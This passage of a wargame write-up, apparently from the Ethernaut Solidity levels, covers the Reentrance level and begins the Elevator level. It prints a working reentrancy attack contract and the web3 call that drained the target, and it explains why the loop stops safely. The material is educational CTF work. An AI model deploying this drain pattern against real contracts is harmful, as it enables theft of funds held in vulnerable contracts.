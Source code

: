 I built and deployed the following contract, and then executed the exploit with the following invocation:
```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract Level10 {
    address private victim;
    uint256 private withdrawAmount;
    function attack(address victimAddress) payable external {
        victim = victimAddress;
        withdrawAmount = msg.value;
        Reentrance(victim).donate{value:msg.value}(address(this));
        Reentrance(victim).withdraw(withdrawAmount);
    }

    receive() external payable {
        Reentrance(victim).withdraw(withdrawAmount);
    }
}

interface Reentrance {
  function balanceOf ( address _who ) external view returns ( uint256 balance );
  function balances ( address ) external view returns ( uint256 );
  function donate ( address _to ) external payable;
  function withdraw ( uint256 _amount ) external;
}
```
```
con.methods.attack(contract.address).send({value:toWei("0.0005")});
```

The target contract started off with 0.001 ether, so I just needed to start this process with a number that will multiply into 0.001. 0.001 would have already been enough, but I used 0.0005 just to give my exploit a chance to stretch its legs. This worked, and completed the level.

> A lesson from this level: Transferring balance to contracts is dangerous, whether you use a limited-gas method or an unlimited-gas method.

Something to note here is that `revert()` doesn't "bubble up" through a `call()` invocation. This is why I didn't have to be careful with terminating my re-entrancy loop the right way. At some point I would call `withdraw()` and it would fail and revert, but this wouldn't revert all of my sneaky work up to that point, just the execution of the deepest (failing) `withdraw()`.

# Level 11: Elevator

At first glance, I think this is going to be about the `pure` method modifier. We need to implement an interface, and we can break the assumptions of the victim contract if we implement a method impurely, because the victim contract assumes the method to be pure. In this sense, I use "pure" to mean that the same input will always produce the same output. In Solidity, `view` would also give the desired effect here, but `pure` is an even stronger property.

> A lesson from this level: don't make assumptions about methods implemented in other contracts: "in an investigation, assumptions kill". Be as precise as you can with method modifiers.
